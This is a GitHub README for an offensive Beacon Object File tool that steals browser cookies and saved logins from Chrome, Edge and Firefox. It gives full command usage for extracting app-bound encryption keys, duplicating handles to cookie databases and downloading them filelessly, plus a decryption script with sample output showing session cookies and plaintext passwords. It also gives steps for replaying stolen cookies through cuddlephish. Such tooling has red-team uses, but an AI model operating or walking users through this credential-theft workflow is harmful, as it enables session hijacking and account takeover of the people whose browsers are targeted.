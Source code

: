 # Cookie-Monster-BOF
Steal browser cookies for edge, chrome and firefox through a BOF!

Cookie Monster BOF will extract the WebKit Master Key and the App Bound Encryption Key for both Edge and Chrome, locate a browser process with a handle to the Cookies and Login Data files, copy the handle(s) and then filelessly download the target file(s).

Once the Cookies/Login Data file(s) are downloaded, the python decryption script can be used to extract those secrets! Firefox module will parse the profiles.ini and locate where the logins.json and key4.db files are located and download them. A seperate github repo is referenced for offline decryption.  

Chrome & Edge 127+ Updates: new chromium browser cookies (v20) use the app bound key to encrypt the cookies. As a result, this makes retrieving the app_bound_encrypted_key slightly more difficult. Thanks to [snovvcrash](https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824) this process can be accomplished without having to escalate your privileges. The catch is your process must be running out of the web browser's application directory. i.e. must inject into Chrome/Edge or spawn a beacon from the same application directory as the browser. 

Latest update allows you to decrypt cookies as SYSTEM and without having to inject into the browser process! Shoutout to @sdemius for the discovering how to decrypt the Chrome's [PostProcessData](https://source.chromium.org/chromium/chromium/src/+/main:chrome/elevation_service/elevator.cc;l=216;bpv=1) function and @b1scoito [explanation](https://github.com/moonD4rk/HackBrowserData/issues/431#issuecomment-2606665195)!  
 
## BOF Usage
```
Usage: cookie-monster [--chrome || --edge || --system <Local State File Path> <PID> || --firefox || --chromeCookiePID <PID> || --chromeLoginDataPID <PID> || --edgeCookiePID <PID> || --edgeLoginDataPID <PID> ] [--cookie-only] [--key-only] [--login-data-only] [--copy-file C:\Folder\Location\] 
cookie-monster Examples: 
   cookie-monster --chrome 
   cookie-monster --edge
   cookie-monster --system "C:\Users\<USER>\AppData\Local\<BROWSER>\User Data\Local State" <PID> 
   cookie-moster --firefox 
   cookie-monster --chromeCookiePID <PID>
   cookie-monster --chromeLoginDataPID <PID> 
   cookie-monster --edgeCookiePID <PID> 
   cookie-monster --edgeLoginDataPID <PID> 
cookie-monster Options: 
    --chrome, looks at all running processes and handles, if one matches chrome.exe it copies the handle to cookies and then copies the file to the CWD 
    --edge, looks at all running processes and handles, if one matches msedge.exe it copies the handle to cookies and then copies the file to the CWD 
    --system, Decrypt chromium based browser app bound encryption key without injecting into browser. Requires path to Local State file and PID of a user process for impersonation 
    --firefox, looks for profiles.ini and locates the key4.db and logins.json file 
    --chromeCookiePID, if chrome PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file 
    --chromeLoginDataPID, if chrome PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file   
    --edgeCookiePID, if edge PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file 
    --edgeLoginDataPID, if edge PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
    --key-only, only retrieve the app bound encryption key. Do not attempt to download the Cookie or Login Data files. 
    --cookie-only, only retrieve the Cookie file. Do not attempt to download Login Data file or retrieve app bound encryption key. 
    --login-data-only, only retrieve the Login Data file. Do not attempt to download Cookie file or retrieve app bound encryption key.  
    --copy-file, copies the Cookie and Login Data file to the folder specified. Does not use fileless retrieval method.   
```
## Compile BOF 
Ensure Mingw-w64 and make is installed on the linux prior to compiling.
```
make
```

## Decryption Steps
Install requirements
```
pip3 install -r requirements.txt
```

Usage
```
python3 decrypt.py -h                                                                                                                                                                      
usage: decrypt.py [-h] -k KEY -o {cookies,passwords,cookie-editor,cuddlephish,firefox} -f FILE

Decrypt Chromium cookies and passwords given a key and DB file

options:
  -h, --help            show this help message and exit
  -k KEY, --key KEY     Decryption key
  -o {cookies,passwords,cookie-editor,cuddlephish,firefox}, --option {cookies,passwords,cookie-editor,cuddlephish,firefox}
                        Option to choose
  -f FILE, --file FILE  Location of the database file
```

Examples:
Decrypt Chrome/Edge Cookies File
```
python .\decrypt.py -k "\xec\xfc...." -o cookies -f ChromeCookies.db

Results Example:
-----------------------------------
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22

Host: github.com
Path: /
Name: user_session
Cookie: x123.....
Expires: Nov 11 2023 21:25:22
```

Decrypt Chrome/Edge Cookies File and save to json
```
python .\decrypt.py -k "\xec\xfc...." -o cookie-editor -f ChromeCookies.db
Results Example:
Cookies saved to 2025-04-11_18-06-10_cookies.json
```
Import cookies JSON file with https://cookie-editor.com/ 

Decrypt Chome/Edge Passwords File
```
python .\decrypt.py -k "\xec\xfc...." -o passwords ChromePasswords.db

Results Example:
-----------------------------------
URL: https://test.com/
Username: tester
Password: McTesty
```
Decrypt Firefox Cookies and Stored Credentials: <br>
https://github.com/lclevy/firepwd

### CuddlePhish Support
added cuddlephish option to the decrypt script which should support using the cookie with https://github.com/fkasler/cuddlephish

```
# Decrypt Cookies
python3 decrypt.py -k "\xec\xfc..." -o cuddlephish -f ChromeCookies.db

# Clone Project
cd 
git clone https://github.com/fkasler/cuddlephish
cd cuddlephish

# Install Dependencies Example on Debian 
curl -fsSL https://deb.nodesource.com/setup_23.x -o nodesource_setup.sh
sudo -E bash nodesource_setup.sh
sudo apt-get install nodejs
npm install

# Import Cookies
cp ~/cookie-monster/cuddlephish_YYYY-MM-DD_HH-MM-SS.json .
node stealer.js cuddlephish_YYYY-MM-DD_HH-MM-SS.json
```

## References
This project could not have been done without the help of Mr-Un1k0d3r and his amazing seasonal videos!
Highly recommend checking out his lessons!!! <br>
Cookie Webkit Master Key Extractor:
https://github.com/Mr-Un1k0d3r/Cookie-Graber-BOF <br>
Fileless download:
https://github.com/fortra/nanodump <br>
Decrypt Cookies and Login Data:
https://github.com/login-securite/DonPAPI <br>
App Bound Key Decryption:
https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824 <br>
Decrypt Chrome 130+ Cookies 
https://github.com/runassu/chrome_v20_decryption/issues/14#issuecomment-2708796234 <br>
